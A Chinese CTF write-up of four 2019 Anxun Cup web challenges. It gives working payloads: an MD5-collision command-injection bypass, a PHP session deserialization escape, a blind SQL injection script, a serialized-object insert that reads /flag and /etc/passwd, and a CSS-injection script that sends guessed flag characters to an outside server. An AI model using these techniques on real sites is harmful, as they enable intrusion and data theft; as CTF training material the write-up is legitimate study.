

2019 安洵杯Web部分题解WriteUp
easy_web ?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=
对参数TXpVek5UTTFNbVUzTURabE5qYz0进行两次base64解密，一次hex解密得到555.pnf0
同样方法对index.php加密，读到源码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 <?php error_reporting(E_ALL || ~ E_NOTICE); header('content-type:text/html;charset=utf-8' ); $cmd = $_GET['cmd' ]; if (!isset ($_GET['img' ]) || !isset ($_GET['cmd' ])) header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=' ); $file = hex2bin(base64_decode(base64_decode($_GET['img' ]))); $file = preg_replace("/[^a-zA-Z0-9.]+/" , "" , $file); if (preg_match("/flag/i" , $file)) { echo '<img src ="./ctf3.jpeg">' ; die ("xixiï½ no flag" ); } else { $txt = base64_encode(file_get_contents($file)); echo "<img src='data:image/gif;base64," . $txt . "'></img>" ; echo "<br>" ; } echo $cmd;echo "<br>" ;if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i" , $cmd)) { echo ("forbid ~" ); echo "<br>" ; } else { if ((string)$_POST['a' ] !== (string)$_POST['b' ] && md5($_POST['a' ]) === md5($_POST['b' ])) { echo `$cmd`; } else { echo ("md5 is funny ~" ); } }
首先是md5碰撞：
1 if ((string)$_POST['a' ] !== (string)$_POST['b' ] && md5($_POST['a' ]) === md5($_POST['b' ]))
直接用网上现成的payload：https://blog.csdn.net/qq_19980431/article/details/83018232
然后命令执行：
得知flag在根目录下，但是读文件的命令都被过滤了
并且通配符：[]，?，*也都被过滤了
但是可以注意到正则中的：|\\|\\\\|，因为正则中\\\才匹配到一个真正意义上的反斜杠\字符，所以反斜杠未被过滤，可以用/bin/c\at /flag来绕过
最终payload：
1 2 3 4 5 6 7 8 9 10 11 12 13 POST /index.php?cmd=/bin/c\at%20/flag HTTP/1.1 Host: 47.108.135.45:20026 Cache-Control: max-age=0 Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3 Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 Connection: close Content-Type: application/x-www-form-urlencoded Content-Length: 389 a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
easy_serialize_php 源码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 <?php $function = @$_GET['f' ]; function filter ($img) $filter_arr = array ('php' ,'flag' ,'php5' ,'php4' ,'fl1g' ); $filter = '/' .implode('|' ,$filter_arr).'/i' ; return preg_replace($filter,'' ,$img); } if ($_SESSION){ unset ($_SESSION); } $_SESSION["user" ] = 'guest' ; $_SESSION['function' ] = $function; extract($_POST); if (!$function){ echo '<a href="index.php?f=highlight_file">source_code</a>' ; } if (!$_GET['img_path' ]){ $_SESSION['img' ] = base64_encode('guest_img.png' ); }else { $_SESSION['img' ] = sha1(base64_encode($_GET['img_path' ])); } $serialize_info = filter(serialize($_SESSION)); if ($function == 'highlight_file' ){ highlight_file('index.php' ); }else if ($function == 'phpinfo' ){ eval ('phpinfo();' ); }else if ($function == 'show_image' ){ $userinfo = unserialize($serialize_info); echo file_get_contents(base64_decode($userinfo['img' ])); }
首先从phpinfo 的auto_append_file可以看到flag文件：d0g3_f1ag.php
然后就是想办法执行最后一段：
1 2 3 4 else if ($function == 'show_image' ){ $userinfo = unserialize($serialize_info); echo file_get_contents(base64_decode($userinfo['img' ])); }
读取flag文件，但是$userinfo['img']这边会被
1 2 3 4 5 if (!$_GET['img_path' ]){ $_SESSION['img' ] = base64_encode('guest_img.png' ); }else { $_SESSION['img' ] = sha1(base64_encode($_GET['img_path' ])); }
给影响，唯一可以利用的就是变量覆盖：extract($_POST);和开头的函数filter
我们知道unserialize函数的特性是，会忽略能够正常序列化的字符串后面的字符串
所以我们可以通过变量覆盖，覆盖$_SESSION，使得$_SESSION['img']前面的变量能够被正常的反序列化
结合filter的过滤，可以用在键名上面，最后构造出如下payload：
1 _SESSION[phpflag]=;s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
这样通过filter(serialize($_SESSION))得到的就为：
1 a:2:{s:7:"";s:44:";s:1:"1";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
";s:44:长度为7被看作键名，使得后面s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";逃逸出来，能够被正常反序列化
同样方法再次读取/d0g3_fllllllag即可：
这真的不是文件上传 首先题目的源码末尾给了一个提示（眼神不好一开始没看到233）
提示我们去github找源码：
https://github.com/Threezh1/wowouploadimage
先说说一开始的做法吧，因为上传后回显的路径是访问不到的，加上show.php中的描述
貌似要我们把关注点放在文件名上面，于是通过fuzz测试，发现了文件名加入单引号出现了报错，很显然存在注入，然后测试得到payload：
1 '||if(ascii(substr((select group_concat(path) from images),"+str(i)+",1))="+str(j)+",0,pow(9999,100))||'0.jpg
进行布尔盲注，编写exp：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 import requestsurl = "http://47.108.135.45:20295/upload.php" database = "" table_name = "images" column_name = "id,title,filename,ext,path,attr" for i in range(1 ,50 ): for j in range(1 ,128 ): filename = "admin'||if(ascii(substr((select group_concat(path) from images)," +str(i)+",1))=" +str(j)+",0,pow(9999,100))||'0.jpg" files = {"file" :(filename,"a" )} r = requests.post(url,files=files) if "Something wrong" not in r.text: database = database + chr(j) print database
但是脱了一整个库没发现flag和提示
这时候才注意到源代码末尾的提示
下载下来源码开始审计
利用点在helper.php中helper 类的末尾__destruct：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 class helper protected $folder = "pic/" ; protected $ifview = False ; protected $config = "config.txt" ; ... public function view_files ($path) if ($this ->ifview == False ){ return False ; } $content = file_get_contents($path); echo $content; } function __destruct () $this ->view_files($this ->config); } }
__destruct会调用view_files方法，如果$this->ifview !== False，则可以文件读取回显内容，所以直接找反序列化的点就好了，这里因为没有上传，所以只有一处：show.php
1 2 3 4 if ($row["attr" ]){ $attr_temp = str_replace('\0\0\0' , chr(0 ).'*' .chr(0 ), $row["attr" ]); $attr = unserialize($attr_temp); }
直接给了unserialize，我们要做的就是跟踪这个attr属性即可
1 2 3 4 5 6 7 8 public function upload ($input="file" ) ... $img_ext = getimagesize($_FILES[$input]["tmp_name" ]); $my_ext = array ("width" =>$img_ext[0 ],"height" =>$img_ext[1 ]); $array["attr" ] = serialize($my_ext); ... }
最开始的attr属性是通过getimagesize获取的，我们很难进行控制，所以目标只有放到插入数据库时候的sql语句中：
1 $sql = "INSERT INTO images (" .(implode("," ,$sql_fields)).") VALUES(" .(implode("," ,$sql_val)).")" ;
通过之前的注入，已经很清楚了注入点，所以通过构造insert，插入最后一个属性attr
先构造一下POC：
1 2 3 4 5 6 7 8 9 10 11 12 13 <?php class helper protected $ifview = True ; protected $config = "" ; public function __construct () { $this ->config = "/etc/passwd" ; } } $h = new helper(); var_dump(serialize($h));
得到：
1 O:6:"helper":2:{s:9:"\000*\000ifview";b:1;s:9:"\000*\000config";s:11:"/etc/passwd";}
因为\000*\000存在不可见字符，不管是直接从bp输入，或者通过py脚本，测试发现都很难插入数据库。但是会发现，源码中attr从数据库取出后会经过：
1 str_replace('\0\0\0', chr(0).'*'.chr(0), $row["attr"]);
处理，直接帮我们把\0\0\0替换成chr(0).'*'.chr(0)
省了一大把事，所以我们只需要把：
1 O:6:"helper":2:{s:9:"\0\0\0ifview";b:1;s:9:"\0\0\0config";s:11:"/etc/passwd";}
插入进数据库即可，利用数据中0x开头被自动解析成字符串的特点，我们把payload进行hex编码后插入即可。payload如下：
1 1','2','2','2',0x4f3a363a2268656c706572223a323a7b733a393a225c305c305c30696676696577223b623a313b733a393a225c305c305c30636f6e666967223b733a353a222f666c6167223b7d)#.png
成功插入后，在show.php触发反序列化获得文件内容：

最后读取/flag
iamthinking www.zip
发现是tp6框架，app/controller/Index.php 代码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 <?php namespace app \controller ;use app \BaseController ;class Index extends BaseController public function index () { echo "<img src='../test.jpg'" ."/>" ; $paylaod = @$_GET['payload' ]; if (isset ($paylaod)) { $url = parse_url($_SERVER['REQUEST_URI' ]); parse_str($url['query' ],$query); foreach ($query as $value) { if (preg_match("/^O/i" ,$value)) { die ('STOP HACKING' ); exit (); } } unserialize($paylaod); } } }
存在可以直接反序列化得利用参数$_GET['payload']，不过有parse_url得检测，但是正则判断为真才过滤，所以我们可以用47.108.135.45:20026///public?payload来使parse_url返回null来绕过检测
然后就是找反序列化得POC，安全客上的POC用不了，因为有个文件被删了，这里用了七月火 师傅的POC，具体可以分析可以看他的文章：https://xz.aliyun.com/t/6479
具体触发链分析后面再补上
cssgame 打开靶机：
告诉我们flag在内网127.0.0.1:60000/flag.html
flag.html源码：
1 2 3 4 5 6 7 8 <html > <link rel ="stylesheet" href ="${encodeURI(req.query.css)}" /> <form > <input name ="Email" type ="text" value ="test" > <input name ="flag" type ="hidden" value ="202cb962ac59075b964b07152d234b70" /> <input type ="submit" value ="提交" > </form > </html >
可以看到flag的值就在标签<input>的value属性
然后我们通过靶机发送css参数给内网的flag.html，flag.html接收后将css拼接到：
1 <link rel ="stylesheet" href ="${encodeURI(req.query.css)}" />
这是一个外网的css链接，也就是说，如果我们传入一个外网的css，flag.html会将css的内容拼接进来进行解析，所以我们就要通过css injection 来窃取内网flag值
之前看到的xctf final有道noxss，就用到了css injection
大致的思路就是通过注入：
1 2 3 input [name=flag] [value^="f"] ~ * {background-image : url ("http://x.x.x.x/f" );}
来对flag值进行逐位判断，如果正确则发送数据给vps
做个简单的实验：
1 2 3 4 5 6 7 8 9 10 11 12 <?php $token1 = md5($_SERVER['HTTP_USER_AGENT' ]); $token2 = md5($token1); $css = $_GET['css' ]; ?> <!doctype html><meta charset=utf-8 > <input name="flag" type=hidden value="flag{xxx}" > <script> var TOKEN = "<?=$token2 ?>" ; </script> <link rel="stylesheet" href="<?=$css ?>" />
假设我们现在要窃取页面的flag值的第一位f，那么现在在我们的vps上写入：
1 2 3 input [name=flag] [value^="f"] ~ * {background-image : url ("http://vps/?flag=f" );}
然后传入payload：
在vps监听：
那么以这个思路，对flag值逐一爆破，为了方便写了个脚本：
1 2 3 4 5 6 f = open("poc.css" ,"w" ) dic = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}-" for i in dic: payload = '''input[name=flag][value^="flag{''' +i+'''"] ~ * {background-image:url("http://174.0.13.182:8888/?flag=flag{''' +i+'''");}''' f.write(payload + "\n" ) f.close()